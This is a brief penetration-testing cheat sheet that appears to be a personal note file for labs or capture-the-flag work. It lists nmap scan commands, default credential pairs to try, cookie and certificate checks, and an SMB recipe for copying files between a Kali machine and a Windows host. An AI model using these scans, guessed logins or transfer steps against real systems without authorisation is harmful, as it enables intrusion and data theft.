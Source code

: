 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA <name> <ip>
- nmap -p- -sV <ip> > all-tcp
- nmap -sU <ip> > comm-udp
- nmap --script vuln <ip>

# http/https 80/443
- check its cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share <shared path>
  - (windows) net use z: \\<kali's ip>\share
  - (windows) copy <file> z:

